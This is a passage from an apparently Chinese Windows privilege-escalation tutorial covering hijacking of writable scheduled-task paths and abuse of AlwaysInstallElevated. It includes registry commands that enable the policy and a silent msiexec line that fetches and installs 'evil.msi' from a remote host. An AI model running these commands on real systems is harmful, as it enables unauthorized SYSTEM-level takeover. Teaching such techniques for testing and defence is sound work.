 |     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>accesschk64.exe -dqv "/path/to/dir"<br>``` |

如果攻击者对某个高权限的计划任务所在的路径有可写权限，可使用恶意程序覆盖原来的程序，当计划任务下次执行时，就会以高权限运行恶意程序。

## [](#4-alwaysinstallelevated-%E6%8F%90%E6%9D%83)4 AlwaysInstallElevated 提权

注册表键 AlwaysInstallElevated 是一个策略设置项，Window 允许低权限用户以 System 权限运行 MSI 安装文件，如果启用此策略设置项，那么任何权限的用户都能以 `NT AUTHORITY\SYSTEM` 权限来运行恶意的 MSI 文件

### [](#41-%E6%9F%A5%E8%AF%A2)4.1 查询

查询：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```bash<br>reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated<br>reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated<br>``` |

未启用 AlwaysInstallElevated 策略，返回结果为：「找不到指定的注册表项或值」

### [](#42-%E5%BC%80%E5%90%AF)4.2 开启

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```bash<br>reg add HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated /t REG_DWORD /d 1<br>reg add HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated /t REG_DWORD /d 1<br>``` |

### [](#43-%E6%89%A7%E8%A1%8C-msi-%E6%96%87%E4%BB%B6)4.3 执行 MSI 文件

本地执行：`msiexec /q /i C:\msi.msi`

-   /i 参数用来表示安装操作
    
-   /q 参数用来隐藏安装界面
    

并且 MSIEXEC 也可以实现无落地文件的方式进行木马上线的方式，当然低权限用不了，因为 msi 文件需要可信的证书才能远程利用 AlwaysInstallElevated 提权：`msiexec /q /i http://ip/evil.msi`
